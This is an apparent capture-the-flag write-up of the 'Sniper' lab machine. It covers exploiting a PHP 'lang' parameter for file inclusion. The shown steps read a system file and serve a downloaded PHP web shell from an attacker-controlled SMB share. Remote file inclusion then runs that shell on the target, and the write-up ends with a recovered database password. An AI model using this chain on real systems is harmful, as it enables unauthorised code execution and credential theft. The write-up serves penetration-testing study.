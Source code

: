 # 🔫 Sniper

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (2).png" alt=""><figcaption></figcaption></figure>

First we start by an nmap :

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (3).png" alt=""><figcaption></figcaption></figure>

I first go on the webpage, and find a nice interface with sub categories:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

then click on the user interface that seemed the only legit page on the homepage:

decided to create a user Felix/Felix:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (3).png" alt=""><figcaption></figcaption></figure>

and when trying to log in:&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So I start to wonder if the other pages weren't fake rabbit holes:

In the "our service" page, we find a dropdown menu for the languages linked to a php file that could lead to RFI

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we try and go fetch a file in a subdirectory:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://10.129.229.6/blog/?lang=/windows/system32/drivers/etc/hosts
```

We can now try to gain foothold via a smb share&#x20;

{% embed url="https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html" %}

### Create a Webshell with Remote File Inclusion

Configure the proper permissions.

```
~$ cd /var/www/html
/var/www/html$ sudo mkdir sniper
/var/www/html$ chmod 0555 /var/www/html/sniper/
/var/www/html$ chown -R nobody:nogroup /var/www/html/sniper/
/var/www/html$ ls -l
dr-xr-xr-x 2 nobody nogroup  4096 Feb 22 13:52 sniper
```

configured the `smb.conf` file in the location `/etc/samba/smb.conf`

```
/etc/samba$ cat smb.conf 
[global]
    workgroup = WORKGROUP
    server string = Samba Server %v
    netbios name = indishell-lab
    security = user
    map to guest = bad user
    name resolve order = bcast host
    dns proxy = no
    bind interfaces only = yes
[sniper]
    path = /var/www/html/sniper
    writable = no
    guest ok = yes
    guest only = yes
    read only = yes
    directory mode = 0555
    force user = nobody
```

restart the Samba service to get the changes effective.

```
service smbd restart
```

ast part is preparing a payload that can be called by the webserver. I downloaded the script `mannu.php` and placed it in `box.php` in the location `/var/www/html/`

```
wget https://raw.githubusercontent.com/incredibleindishell/Mannu-Shell/master/mannu.php -O /var/www/html/sniper/box.php
```

And if i request the following url with the RFI:&#x20;

```
http://10.129.229.6/blog/?lang=\\10.10.14.166\sniper\box.php
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the `../user/db.php` file, if we click the edit button, we can see some very interesting stuff:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (2).png" alt=""><figcaption></figcaption></figure>

so we got some credentials for dbuser (36mEAhz/B8xQ\~2VM)

